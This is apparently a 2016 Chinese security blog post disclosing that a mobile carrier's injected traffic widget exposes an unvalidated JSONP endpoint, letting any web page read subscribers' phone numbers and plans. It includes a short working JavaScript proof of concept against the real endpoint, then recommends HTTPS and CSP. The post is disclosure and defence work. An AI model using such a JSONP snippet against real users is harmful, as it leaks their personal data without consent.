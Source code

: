 ```yaml
---
id: 732
layout: post
title: '运营商劫持造成的风险案例'
date: 2016-04-14 16:36:00
author: virusdefender
tags: 安全
---
```


山东移动在使用3/4G的时候，会在网页中插入一段js，然后在网页右下角显示一个流量球，显示你当前剩余流量，点击流量球还可以办理业务。

![请输入图片描述][1]

![请输入图片描述][2]

但是在使用jsonp查询的时候没有进行有效的安全校验，导致用户在使用3/4G的时候该接口可以被任意网页js调用，可以获取用户手机号码，当前已经办理的业务，当前的套餐情况，办理各种套餐等。当然这里除了对手机号打码之外也没有别的办法进行校验，毕竟是插入到别人的页面的，校验referer肯定不行。


![请输入图片描述][3]

获取手机号的poc

```js
var angular = {"callbacks": {"_y": function(data){console.log(data);alert(data.respparam.phoneNumber);}}};

$.ajax({
        url: "http://wap.toolbar.sd.chinamobile.com:8080/html/servicereq/queryMessageList?callback=angular.callbacks._y&csession=-1648015146&reqparam=%7B%22flag%22:%22-1%22,%22startNum%22:%221%22,%22number%22:%2210%22%7D&templateId=fullscreenbar",
        method: "get",
        dataType: "jsonp",
        jsonp: "angular.callbacks._y",
})
```

![请输入图片描述][4]

运营商劫持已经成为国内互联网安全隐患之一，越来越多的网站选择使用https来防范运营商劫持。使用CSP策略是暂时无法使用https的网站的临时解决方案。

根据 http://www.cnblogs.com/Kevin-Zhao/articles/5216686.html qq音乐全站使用了下面的CSP策略

```
content-security-policy:script-src https: *.qq.com *.sinajs.cn *.gtimg.cn *.url.cn *.tenpay.com *.qpic.cn *.qpimg.cn *.idqqimg.com *.gtimg.com *.soso.com 'unsafe-inline' 'unsafe-eval'; report-uri http://qm.music.qq.com/report_csp
```

2016年02月21日一天内就有2,322,499次占1.63%的PV被拦截上报，统计如下

![请输入图片描述][5]

可见国内运营商劫持是多么的猖狂。


  [1]: http://storage.virusdefender.net/blog/images/732/1.png
  [2]: http://storage.virusdefender.net/blog/images/732/2.png
  [3]: http://storage.virusdefender.net/blog/images/732/3.png
  [4]: http://storage.virusdefender.net/blog/images/732/4.jpg
  [5]: http://storage.virusdefender.net/blog/images/732/5.png
